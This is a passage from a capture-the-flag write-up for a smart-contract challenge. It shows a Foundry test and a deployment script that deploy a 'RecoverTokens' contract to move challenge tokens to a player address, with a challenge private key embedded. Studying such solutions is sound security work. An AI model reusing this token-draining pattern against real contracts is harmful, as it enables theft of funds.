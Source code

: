 These tokens would then be transferred to the player, to get the flag.

All we need to do is deploy the `RecoverTokens` contract and call `recoverTokens()` on it.

To test that this works, we can run the following Foundry test:
```solidity
pragma solidity ^0.8.0;

import {Test, console2} from "forge-std/Test.sol";
import {RecoverTokens, IERC20} from "src/RecoverTokens.sol";
import {Challenge} from "src/Challenge.sol";

contract TestRecovery is Test {
    address player;
    address token;
    RecoverTokens recoverer;

    function setUp() public {
        vm.createSelectFork("RPC_URL_FROM_CHALLENGE");
        token = address(Challenge(0x543416d7A354d468f35b9A53DdF499174b4A36D7).token());
        player = vm.addr(0x158a42e89b44e1e30844fb14d503eee042676e00523cf8587738330a03f67ec3);
        recoverer = new RecoverTokens(token, player);
    }

    function test_recovery() public {
        recoverer.recoverTokens();
        assertEq(IERC20(token).balanceOf(player), 1337 ether);
    }
}
```
After passing the test, all that is needed is to send the transactions.
This can be done with a [Foundry script](https://book.getfoundry.sh/tutorials/solidity-scripting):
```solidity
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {RecoverTokens} from "src/RecoverTokens.sol";
import {Challenge} from "src/Challenge.sol";

contract Solve is Script {
    function run() external {
        uint256 privateKey = 0x158a42e89b44e1e30844fb14d503eee042676e00523cf8587738330a03f67ec3;
        address player = vm.addr(privateKey);
        address token = address(Challenge(0x543416d7A354d468f35b9A53DdF499174b4A36D7).token());
        vm.startBroadcast(privateKey);
        RecoverTokens recoverer = new RecoverTokens(token, player);
        recoverer.recoverTokens();
        vm.stopBroadcast();
    }
}
```

And we've got our flag.
